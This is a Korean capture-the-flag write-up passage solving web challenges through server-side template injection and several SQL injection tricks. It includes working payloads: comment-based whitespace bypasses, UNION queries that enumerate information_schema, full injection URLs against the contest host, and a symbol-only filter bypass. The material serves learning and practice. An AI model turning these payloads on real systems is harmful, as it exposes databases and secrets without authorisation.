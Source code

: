 **Server Side Template Injection**이 발생하며 단순하게 \{\{config\}\} 로 플래그를 읽는 것이 가능하다.

..... RINT_REGULAR': False, 'TESTING': False, 'flag': 'flag{SSSSSTI}', 'PERMANENT_SESSION_LIFETIME .....



__플래그 : flag{SSSSSTI}__



### SQQQQQQLLLLLLLLLlll (250)

일단 공백 필터링은 /**/로 우회할 수 있고, id만 출력하는데 pw as id로 이를 바꿀 수 있다.

union sql injection + order by로 id가 flag인 것을 알아내고 비밀번호 읽으면 된다.

id는 이전 문제처럼 이스케이프 처리했고 pw는 아래처럼 했다.

```
union/**/select/**/pw/**/as/**/id,1/**/from/**/user/**/order/**/by/**/1#
```



__플래그 : flag{uni0n0n0n0nnnnnnn}__



### guestbook (250)

글 인덱싱할 때 ```?no=1 union select```  식으로 union sqli가 가능해서 table, column명 따고 플래그 읽을 수 있다.



```
http://test.c2w2m2.com/guestbook/read.php?no=25%20union%20select%20table_name%20from%20information_schema.tables;#
```

table : fl4g_flag_flag

```
http://test.c2w2m2.com/guestbook/read.php?no=25%20union%20select%20column_name%20from%20information_schema.columns;#
```

column : flag_hida

```
http://test.c2w2m2.com/guestbook/read.php?no=25%20union%20select%201,%202,%20flag_hida,%204,%205%20from%20fl4g_flag_flag;#
```



**플래그 : flag{f1ag_uni0n_based_sqli_hahahahahaha}**



### Advance sqlinjection (300)

알파벳, 숫자가 preg_match로 막혀있는데 특수기호로만 이렇게 저렇게 True  되게하면 된다.

``` select * from user where id='\' and pw='|| !('@' ^ '@')#' ```

이모티콘 같다



**플래그 : flag{advance_sqlinjection_haha}**



## Rev

### WTF (50)

```